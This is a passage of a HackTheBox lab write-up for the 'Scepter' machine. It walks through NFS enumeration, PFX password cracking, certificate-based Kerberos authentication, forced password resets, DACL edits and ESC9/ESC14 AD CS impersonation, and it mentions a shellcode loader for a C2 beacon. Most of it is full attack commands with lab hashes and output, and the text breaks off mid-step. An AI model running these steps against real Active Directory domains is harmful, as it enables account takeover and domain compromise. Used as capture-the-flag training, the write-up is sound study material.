


## Entry

Nowadays HackTheBox release machine with credentials but this machine not so we have exract some more information before doing that so before done it i wanna run `nmap` scan before start.

### nmap

```bash
nmap -sC -sV -Pn 10.10.11.65 -vv
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-12 05:27:32Z)
111/tcp  open  rpcbind?      syn-ack ttl 127
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  4           2049/tcp   nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
2049/tcp open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Alright we got **2049** port is open which is interesting.

### NFS enum

This is really common but u can also may wanna read here https://hacktricks.boitatech.com.br/pentesting/nfs-service-pentesting

```bash
➜  scepter showmount -e 10.10.11.65
Export list for 10.10.11.65:
/helpdesk (everyone)
```

- This shows us that the directory `/helpdesk` is mountable by **everyone**

Okey here is important and u may wanna watch out

```bash
## As User

mkdir NFSDIR NFSOUT
sudo mount -t nfs -o ro,vers=3,nolock 10.10.11.65:/helpdesk ./NFSDIR

## As Root
cd NFSDIR
cp * ../NFSOUT -r && chmod 777 ../NFSOUT -R && cd ../ && rm NFSDIR -rf
```


Nice!!! lets analyze the files we got.!!!!


This part really important let me explain as best i can.

## Certificate & PFX Analysis of Scepter Users

We begin by examining the contents of the `baker.crt` certificate file:

```bash
└─# openssl x509 -in baker.crt -noout -text | grep 'CN'      
        Issuer: DC=htb, DC=scepter, CN=scepter-DC01-CA
        Subject: DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
                  URI:ldap:///CN=scepter-DC01-CA,CN=dc01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=scepter,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint
                CA Issuers - URI:ldap:///CN=scepter-DC01-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=scepter,DC=htb?cACertificate?base?objectClass=certificationAuthority
```

This reveals both the **email** and the **User Principal Name (UPN)**

of the user:

```
d.baker@scepter.htb
```

PFX files bundle a certificate and a private key together and are usually **password protected**. Let's attempt to crack the password for one of the PFX files.

### Step 1: Convert the PFX file to a hash format for JohnTheRipper

We use the `pfx2john.py` script from [Openwall's GitHub](https://github.com/openwall/john):

```bash
┌──(root㉿kali)-[/home/…/Documents/HackTheBox/scepter/NFSOUT]
└─# pfx2john scott.pfx > scott_hash
                                                                                                                                                                                             
┌──(root㉿kali)-[/home/…/Documents/HackTheBox/scepter/NFSOUT]
└─# john scott_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (scott.pfx)  
```

✅ Success! We recovered the password:

```
newpassword
```

(*All other PFX files seem to use the same password*)

### 2. Verifying & Extracting Contents from `clark.pfx`

We use the cracked password to inspect and extract contents:

```bash
─# openssl pkcs12 -in clark.pfx -info                 
Enter Import Password:newpassword
```

After entering the password `newpassword`, we confirm it contains:

- A certificate for **CN=m.clark**
- A private key (encrypted with AES-256-CBC)
- Issued by the internal CA: `scepter-DC01-CA`

Extracting the Certificate and Key from `clark.pfx`

### 3. Extracting the Certificate and Key from `clark.pfx`

We extract the certificate:

```
openssl pkcs12 -in clark.pfx -nokeys -out clark_cert.pem
```

Then the private key:

```bash
openssl pkcs12 -in clark.pfx -nocerts -nodes -out clark_key.pem
```

### 4. Recombining `.crt` and `.key` into a New PFX

We can recreate the `.pfx` file from the extracted certificate and key. This step demonstrates that **with a valid `.crt` and `.key`, we can recreate the original `.pfx`** file.

```bash
└─# openssl pkcs12 -export -in baker.crt -inkey baker.key -out baker.pfx
Enter pass phrase for baker.key: newpassword
Enter Export Password: [BLANK]
Verifying - Enter Export Password: [BLANK]
```

nice!!!! lets check if we can auth it and grab baker hash

```bash
└─# certipy-ad auth -pfx baker.pfx -dc-ip 10.10.11.65
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information

```

and we got `Clock skew too great` issue but we can fix it here is how:


Nice we got his hash and lets veriy

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
```

Lets check `shares` `users` and if we can dump BH data.

## User

### SMB and LDAP enum

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --users
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
SMB         10.10.11.65     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.65     445    DC01             Administrator                 2025-03-07 22:19:11 0       Built-in account for administering the computer/domain 
SMB         10.10.11.65     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.65     445    DC01             krbtgt                        2024-10-31 22:24:41 0       Key Distribution Center Service Account 
SMB         10.10.11.65     445    DC01             d.baker                       2025-07-12 06:06:03 0        
SMB         10.10.11.65     445    DC01             a.carter                      2025-07-12 06:06:03 0        
SMB         10.10.11.65     445    DC01             h.brown                       2025-03-07 22:19:11 0        
SMB         10.10.11.65     445    DC01             p.adams                       2024-11-02 08:00:25 0        
SMB         10.10.11.65     445    DC01             e.lewis                       2024-11-02 01:07:14 0        
SMB         10.10.11.65     445    DC01             o.scott                       2024-11-02 01:07:14 0        
SMB         10.10.11.65     445    DC01             M.clark                       2024-11-02 01:07:14 0 
```

i checked users first and now we can extract usernames.

```bash
➜  scepter vim nxcusers.txt
➜  scepter cat nxcusers.txt | awk '{print $5}' > users.txt
➜  scepter cat users.txt 
Administrator
Guest
krbtgt
d.baker
a.carter
h.brown
p.adams
e.lewis
o.scott
M.clark
```

lets check `--shares` but nothing special yet.

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --shares
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
SMB         10.10.11.65     445    DC01             [*] Enumerated shares
SMB         10.10.11.65     445    DC01             Share           Permissions     Remark
SMB         10.10.11.65     445    DC01             -----           -----------     ------
SMB         10.10.11.65     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.65     445    DC01             C$                              Default share
SMB         10.10.11.65     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.65     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.65     445    DC01             SYSVOL          READ            Logon server share 
```

okey lets see if we can dump BH data.

```bash
➜  scepter nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce         
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
➜  scepter nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --bloodhound --dns-server 10.10.11.65 --collection All
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
LDAP        10.10.11.65     389    DC01             Resolved collection methods: acl, trusts, group, objectprops, container, dcom, localadmin, psremote, rdp, session
LDAP        10.10.11.65     389    DC01             Done in 00M 17S
LDAP        10.10.11.65     389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.65_2025-07-11_181529_bloodhound.zip
```

lets upload them and start analyze.

### Analyze Bloodhound Data.


okey we have `ForceChangePassword` on a.carter.

Before we done analyze lets check `Remote Management User` member and verify our ROADMAP.


okey we have to go h.brown for some how. after we change password of a.carter what we can do lets check???


Okeys its seems like loop but its not cause i will show u right now. Lets first check **ADCS** with d.baker and u will see

```bash
➜  scepter faketime "$(ntpdate -q authority.htb | cut -d ' ' -f 1,2)" nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce -M adcs
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
ADCS        10.10.11.65     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.65     389    DC01             Found PKI Enrollment Server: dc01.scepter.htb
ADCS        10.10.11.65     389    DC01             Found CN: scepter-DC01-CA
```

and yeah off course off course

```bash
➜  scepter certipy-ad find -u d.baker -hashes :18b5fb0d99e7a475316213c15b6f22ce -target scepter.htb -text -stdout -vulnerable -dc-ip 10.10.11.65
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectRequireEmail
    Enrollment Flag                     : AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-01T02:29:00+00:00
    Template Last Modified              : 2024-11-01T09:00:54+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
      Object Control Permissions
        Owner                           : SCEPTER.HTB\Enterprise Admins
        Full Control Principals         : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Owner Principals          : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SCEPTER.HTB\staff
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.

```

Okey its **ESC9** but its not like common ones.

[https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc9-no-security-extension-on-certificate-template](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template)


We’ve identified a certificate template that is vulnerable to **ESC9**. This vulnerability allows user impersonation if two conditions are met:

1. The template’s `msPKI-Enrollment-Flag` includes the flag `CT_FLAG_NO_SECURITY_EXTENSION`.
2. The **StrongCertificateBindingEnforcement** setting on the CA is less than `2`.

When both are true, the certificate issued can be used to impersonate another user.

Lets use powerview and understand everything more clearly

```bash
powerview scepter.htb/d.baker@DC01.scepter.htb -H :18b5fb0d99e7a475316213c15b6f22ce --dc-ip 10.10.11.65 --use-ldap -d
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-DomainCATemplate -Identity StaffAccessCertificate -Select msPKI-Enrollment-Flag,msPKI-Certificate-Name-Flag
msPKI-Certificate-Name-Flag     : SubjectAltRequireEmail|SubjectRequireDnsAsCn|SubjectRequireEmail
msPKI-Enrollment-Flag           : AutoEnrollment|NoSecurityExtension
```

We observed that the certificate template **requires the user's email address** when submitting a certificate request. Because of this, we need the ability to **modify the email attribute** of a user who is allowed to enroll using this template — specifically, a member of the **Staff** group.

Let’s now review the access control requirements.

```bash
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-DomainCATemplate -Identity StaffAccessCertificate -Select msPKI-Enrollment-Flag
AutoEnrollment|NoSecurityExtension
```

The **ESC9 attack surface** is considered broad because it typically allows impersonation by modifying a user's `userPrincipalName` (UPN). However, in this case, the certificate template doesn’t rely on the UPN — it specifically requires the **email address** instead.

This behavior is controlled by the `SubjectAltRequireEmail` flag, which tells the CA to check for a **Subject Alternative Name (SAN)** containing an email address (RFC822Name). As a result, instead of impersonating through the UPN, we need to provide a **valid, preconfigured email address**, which shifts the vulnerability scenario from **ESC9 to ESC14**.

```bash
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-ADObject -Properties altSecurityIdentities
altSecurityIdentities     : X509:<RFC822>h.brown@scepter.htb
```

See?????? We already owned him. Lets start with change passworwd of a.carter.

### ForceChangePassword

```bash
➜  scepter bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123
[+] Password changed successfully!
```

### GenericAll

```bash
➜  scepter dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250711-185101.bak
[*] DACL modified successfully!
```

now we will use GenericALll and update mail of d.baker and change with h.brown!!! after dump D.baker pfx file and auth it we will grab H.browns hash

```bash
➜  scepter bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v h.brown@scepter.htb        
[+] d.baker's mail has been updated
```

and now lets use ESC9

### ESC9

```bash
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
ntpdig: lookup of authority.htb failed, errno -2 = Name or service not known
ntpdig: no eligible servers
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: DC01.scepter.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SCEPTER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 2
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```


and now we can auth pfx with username h.brown

```bash
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

Nice!!! lets grab user.txt!!!!

```bash
➜  scepter evil-winrm -i DC01.scepter.htb -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

we have to change our /etc/krb5.conf file wait we have biggest problem

```bash
➜  scepter nxc smb 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c STATUS_ACCOUNT_RESTRICTION 
➜  scepter nxc smb 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c -k 
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c KDC_ERR_ETYPE_NOSUPP 
➜  scepter nxc winrm 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
WINRM       10.10.11.65     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
WINRM       10.10.11.65     5985   DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c
```

after certipy-ad command we will have `h.brown.ccache` file off course we can export it and try

```bash
[libdefaults]
        default_realm = SCEPTER.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        SCEPTER.HTB = {
                kdc = scepter.htb
                admin_server = scepter.htb
                default_admin = scepter.htb
        }
[domain_realm]
        .scepter.htb = SCEPTER.HTB
```

we can export it and grab winrm

```bash
➜  scepter export KRB5CCNAME=h.brown.ccache                                               
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" evil-winrm -r scepter.htb -i DC01.scepter.htb                          
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\h.brown\Desktop> type user.txt
f042b0cdc78f27f8c90247e4e2536dcd
```

## Root

Okey lets check what h.brown can do or somethings if different.


**CMS** and **HELPDESK** seems like interesting right? Lets start with analyze CMS

```bash
➜  scepter2 bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce get object "CMS" --attr description 

distinguishedName: CN=CMS,CN=Users,DC=scepter,DC=htb
description: Certificate Management Service
```

this is remind me  **ADCS** again. let me load my beacon here and analyze more i will use my laoder

https://github.com/lineeralgebra/shellcoderunner

```bash
➜  shellcoderunner git:(main) ✗ python3 xor.py a.bin mysecretkey --compile
[+] NTAPI-based C++ runner saved to shellcode_runner.cpp
[*] Compiling shellcode_runner.cpp to runner.exe...
[+] Compilation successful: runner.exe
```



and its gave us beacon nice lets import [Powerview.ps1](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView.ps1) and continue.

```bash
[07/11 20:41:59] beacon> powershell-import /home/elliot/tools/PowerView.ps1
[07/11 20:41:59] [*] Tasked beacon to import: /home/elliot/tools/PowerView.ps1
[07/11 20:41:59] [+] host called home, sent: 143784 bytes
```

Check for any DACL that may be tied to the CMS group

```bash
powerpick Find-InterestingDomainACL -ResolveGUIDS | Select-Object SecurityIdentifier, IdentityReference, ObjectDN, ActiveDirectoryRights, AceType, ObjectAceType
```



Let’s continue our Active Directory Certificate Services (AD CS) enumeration. This time, our goal is to identify whether any additional attack paths exist that could lead to user impersonation or privilege escalation. For this, we'll continue using **PowerView**, a powerful PowerShell toolset for Active Directory enumeration.

While exploring access rights and attributes, we discovered something particularly interesting:

We have **write permissions over the `altSecurityIdentities` attribute** for the **`p.adams`** user account.

The `altSecurityIdentities` attribute is highly sensitive in an AD CS environment. When a certificate is issued with a Subject Alternative Name (SAN) matching the value set in this attribute (typically something like `rfc822Name=user@domain`), **Active Directory treats that certificate as belonging to the user whose `altSecurityIdentities` is set**. This is core to the **ESC14 attack path**.


but we can go `p.adams` 


But yeah we already done seems like. lets login with powerview.

!!!!! ATTENTTION PLEASEEEE CLEANUP SCRIPT IS FCKING FAST SO DONT FORGET TO RUN WHOLE COMMANDS AGAIN!!!!

```bash
bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123

dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'

bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v h.brown@scepter.htb

faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
```

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

now we can use powerview again

```bash
➜  scepter2 faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" powerview "scepter.htb/h.brown"@"DC01.scepter.htb" --dc-ip 10.10.11.65 -k --no-pass      
Logging directory is set to /home/elliot/.powerview/logs/scepter-h.brown-dc01.scepter.htb
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ 
```

and the command is

```bash
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ Set-ADObject -Identity 'p.adams' -Set 'altSecurityIdentities=X509:<RFC822>p.adams@scepter.htb'
[2025-07-12 05:07:36] [Set-DomainObject] Success! modified attribute altSecurityIdentities for CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ Get-ADObject -Properties altSecurityIdentities
altSecurityIdentities     : X509:<RFC822>p.adams@scepter.htb

altSecurityIdentities     : X509:<RFC822>h.brown@scepter.htb
```


now we will use a.carter privileges again for p.adams. but before done this we have to run this commands again.

we can also done with  bloodyAD tho

```bash
bloodyAD -d "scepter.htb" -u "h.brown" -k --host "dc01.scepter.htb" --dc-ip "10.10.11.65" set object "p.adams" altSecurityIdentities -v "X509:<RFC822>p.adams@scepter.htb"
```

```bash
bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123
dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'
```

and after them we can run it again.

```bash
➜  HackTheBox bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v p.adams@scepter.htb        
[+] d.baker's mail has been updated
```

now we will do ESC9 again for p.adams


and lets run everything we run before

```bash
